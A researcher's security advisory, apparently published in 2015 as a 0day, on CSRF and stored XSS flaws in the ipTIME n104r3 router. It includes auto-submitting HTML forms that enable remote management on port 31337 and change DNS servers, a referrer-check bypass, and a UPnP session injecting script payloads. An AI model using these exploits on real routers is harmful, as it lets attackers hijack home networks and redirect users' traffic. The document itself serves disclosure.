


The ipTIME n104r3 is a wireless LAN router. Its current firmware (9.58) with default configuration is vulnerable to CSRF-attacks and stored XSS attacks.
Click the links below to access to the exploits:
CSRF-attack activating the remote control management on port 31337/tcp: 
Stored XSS:

Complete advisory:
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512
## Advisory Information
Title: iptime n104r3 vulnerable to CSRF and XSS attacks
Advisory URL: https://pierrekim.github.io/advisories/2015-iptime-0x01.txt
Blog URL: https://pierrekim.github.io/blog/2015-07-03-iptime-n104r3-vulnerable-to-CSRF-and-XSS-attacks.html
Date published: 2015-07-03
Vendors contacted: None
Release mode: Released, 0day
CVE: no current CVE
## Product Description
EFMNetworks ipTIME is the largest Korean brand of SOHO/small/middle entreprise Routers/WiFi APs/Modems/Firewalls in South Korea with millions of devices deployed in the country.
EFMNetworks ipTIME is occupying more than 60 percent of personal network devices.
## Vulnerability Summary
The ipTIME n104r3 is a wireless LAN router. Its current firmware (9.58) with default configuration is
vulnerable to CSRF-attacks and XSS attacks.
Since, its anti-CSRF protection is based on a static HTTP referrer (RFC 1945), an attacker can take over
most of the configuration and settings using anyone inside the LAN of the router. Owners are urged to
contact ipTIME, and activate authentication on this product (disabled by default).
Due to the fact the firmware seems to be used on several products, it is highly likely that other products
of ipTIME are vulnerable.
The probability that the N104T is also vulnerable is very high but I don't have possibility to test the
exploits against live ipTIME N104T routers.
## Details - CSRF
The HTTP interface allows to edit the configuration. This interface is vulnerable to CSRF.
Configuration and settings can be modified with CSRF attacks:
- Activate the remote control management
- Change the DNS configuration
- Update the firmware
- Change the Wifi Configuration
- Create TCP redirections to the LAN
- and more...
Example of forms exploiting the CSRF:
o Activating the remote control management on port 31337/tcp listening on the WAN interface.
<html>
<head>
<script>
function s() {
document.f.submit();
}
</script>
</head>
<body onload="s()">
<form id="f" name="f" method="POST" action="http://192.168.0.1/do_cmd.htm">
<input type="hidden" name="CMD" value="SYS">
<input type="hidden" name="GO" value="firewallconf_accesslist.html">
<input type="hidden" name="nowait" value="1">
<input type="hidden" name="SET0" value="17367296=31337">
<input type="hidden" name="SET1" value="17236224=1">
</form>
</body>
</html>
o Changing the DNS configuration to 0.2.0.7 and 1.2.0.1:
<html>
<head>
<script>
function s() {
document.f.submit();
}
</script>
</head>
<body onload="s()">
<form id="f" name="f" method="POST" action="http://192.168.0.1/do_cmd.htm">
<input type="hidden" name="CMD" value="WAN">
<input type="hidden" name="GO" value="netconf_wansetup.html">
<input type="hidden" name="SET0" value="50397440=2">
<input type="hidden" name="SET1" value="50856960=64-E5-99-AA-AA-AA">
<input type="hidden" name="SET2" value="235077888=1">
<input type="hidden" name="SET3" value="235012865=0.2.0.7">
<input type="hidden" name="SET4" value="235012866=1.2.0.1">
<input type="hidden" name="SET5" value="51118336=0">
<input type="hidden" name="SET6" value="51839232=1">
<input type="hidden" name="SET7" value="51511552=1500">
<input type="hidden" name="SET8" value="117834240=">
<input type="hidden" name="SET9" value="117703168=">
<input type="hidden" name="SET10" value="117637376=1492">
<input type="hidden" name="SET11" value="51446016=1500">
<input type="hidden" name="SET12" value="50463488=192.168.1.1">
<input type="hidden" name="SET13" value="50529024=255.255.255.0">
<input type="hidden" name="SET14" value="50594560=192.168.1.254">
</form>
</body>
</html>
The variable GO is an open redirect. Any URL like http://www.google.com/ for instance can be used.
The variable GO is also vulnerable to XSS. It's out of scope in this advisory.
To bypass the protection (which checks the refer), you can, for example, base64 the form and include
it in the webpage.
The refer will be empty and the CSRF will be accepted by the device:
o activate_admin_wan_csrf_bypass.html:
<html>
<head>
<meta http-equiv="Refresh" content="1;url=">
</head>
<body>
</body>
</html>
Visiting activate_admin_wan_csrf_bypass.html in a remote location will activate
the remote management interface on port 31337/TCP.
You can test it through http://pierrekim.github.io/advisories/2015-iptime-0x01-PoC-change_dns_csrf_bypass.html
o change_dns_csrf_bypass.html:
<html>
<head>
<meta http-equiv="Refresh" content="1;url=">
</head>
<body>
</body>
</html>
Visiting activate_admin_wan_csrf_bypass.html in a remote location will change the DNS servers
provided by the ipTIME device in the LAN.
You can test it through http://pierrekim.github.io/advisories/2015-iptime-0x01-PoC-activate_admin_wan_csrf_bypass.html
## Details - stored XSS and fun
There is a stored XSS, which can be injected using UPNP from the LAN, without authentication:
upnp> host send 0 WANConnectionDevice WANIPConnection AddPortMapping
Required argument:
Argument Name: NewPortMappingDescription
Data Type: string
Allowed Values: []
Set NewPortMappingDescription value to: <script>alert("XSS");</script>
Required argument:
Argument Name: NewLeaseDuration
Data Type: ui4
Allowed Values: []
Set NewLeaseDuration value to: 0
Required argument:
Argument Name: NewInternalClient
Data Type: string
Allowed Values: []
Set NewInternalClient value to: <script>alert("XSS");</script>
Required argument:
Argument Name: NewEnabled
Data Type: boolean
Allowed Values: []
Set NewEnabled value to: 1
Required argument:
Argument Name: NewExternalPort
Data Type: ui2
Allowed Values: []
Set NewExternalPort value to: 80
Required argument:
Argument Name: NewRemoteHost
Data Type: string
Allowed Values: []
Set NewRemoteHost value to: <script>alert("XSS");</script>
Required argument:
Argument Name: NewProtocol
Data Type: string
Allowed Values: ['TCP', 'UDP']
Set NewProtocol value to: TCP
Required argument:
Argument Name: NewInternalPort
Data Type: ui2
Allowed Values: []
Set NewInternalPort value to: 80
upnp>
The UPNP webpage in the administration area (http://192.168.0.1/popup_upnp_portmap.html) will show:
[...]
<tr>
<td class=item_td>TCP</td>
<td class=item_td>21331</td>
<td class=item_td><script>alert("XSS")<script>alert("XSS");</script>:28777</td>
<td class=item_td><script>alert("XSS");</script></td>
</tr>
[...]
- From my research, there are some bits overflapping with others, resulting in showing funny ports
and truncating input data. A remote DoS against the upnpd process seems to be easily done.
Gaining Remote Code Execution by UPNP exploitation is left as a exercise for the reader.
## Vendor Response
- From my experience, contacting EFMNetworks ipTIME proved to be useless.
They don't publish security information in the changelog, they don't answer to security researchers and
they don't credit them either.
EFMNetworks ipTIME was not contacted in regard of this case.
## Report Timeline
* Apr 20, 2015: Vulnerabilities found by Pierre Kim.
* Jun 20, 2015: Vulnerabilities confirmed with reliable PoCs.
* Jul 03, 2015: A public advisory is sent to security mailing lists.
## Credit
These vulnerabilities were found by Pierre Kim (@PierreKimSec).
## Greetings
Big thanks to Alexandre Torres.
## References
https://pierrekim.github.io/advisories/2015-iptime-0x01.txt
https://pierrekim.github.io/blog/2015-07-03-iptime-n104r3-vulnerable-to-CSRF-and-XSS-attacks.html
## Disclaimer
This advisory is licensed under a Creative Commons Attribution Non-Commercial
Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v1
iQIcBAEBCgAGBQJVlbX6AAoJEMQ+Dtp9ky28I3AP/jAFTG1dEaWAFdqA1Vbagdyl
kIM22Gl+m4owJ5zYcJPahAsXAyHiigiA3bFFqC2TlRHZbIdFqsDXK2vM02uWi+KS
UiEl98VODDOjVqRj2x/f67qjU2vYWuS6TwT1OsjwMOnGOizHwqpqtQ1bLE6STKdY
9piABt9QZ4aw/CQk+32LEYO4jFHn75/9uncjP0tWblfE+7C7YrFF9F4Yg60m59R1
UuT0pvgLGHBpUw/VDCazGLJvd09jDQDlBQp7RraRrMPptmRvzhLVwQRaYwugWeqa
bGEIgclf5kbWO+LHRLvhkXtoDnw7TcEzR4+pXU3RUgA+Plz5z+9RR4chvAR116v/
0ZydSGdR1zaQWymU5KzZ2MadITw+T2iOjU2i8r7qluC1NX3YK7FVRz6TVlm5UVUj
Y5tg0PZ0vFsazPqa/TA26t+r9KrmjUJTuPPeecv5w3T6Y5Hl+MrMoaTl5MbXQD2b
bigs+7UsN7jPIY75PHfDrWyiDcqfx9Ra5vrRlt2SSg9oD3qXyX15OmsoDJYJ1xvG
cHrwXpOoiWC5rzQj6g6PNUqUbUyMdoXuoAbMyLXEQ6paKJ69pbVli4qIfakvZFNB
yoKdR13Q+j32YDbGuRcC3uOkkrt5/hW+yTrijs2WdfN5GviuGx4lob2FAQGcmGSo
UH4RwA7mV/6Pm3ZOYG0I
=9xXM
-----END PGP SIGNATURE-----
published on 2015-07-03 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>